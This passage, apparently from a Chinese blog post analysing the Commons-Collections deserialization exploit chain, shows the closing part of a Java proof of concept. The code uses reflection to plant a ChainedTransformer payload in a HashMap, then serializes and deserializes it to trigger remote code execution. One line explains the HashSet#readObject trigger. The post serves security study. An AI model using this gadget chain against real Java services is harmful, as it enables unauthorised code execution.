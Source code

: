 ```java
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }
        f2.setAccessible(true);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node, rceDemo);

        Field cf = ChainedTransformer.class.getDeclaredField("iTransformers");
        cf.setAccessible(true);
        cf.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(map);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

核心是在调用 `HashSet#readObject` 的时候，调用 map 的 put 方法

![](Commons-Collections-反序列化利用链分析/image-20210211215727507.png)
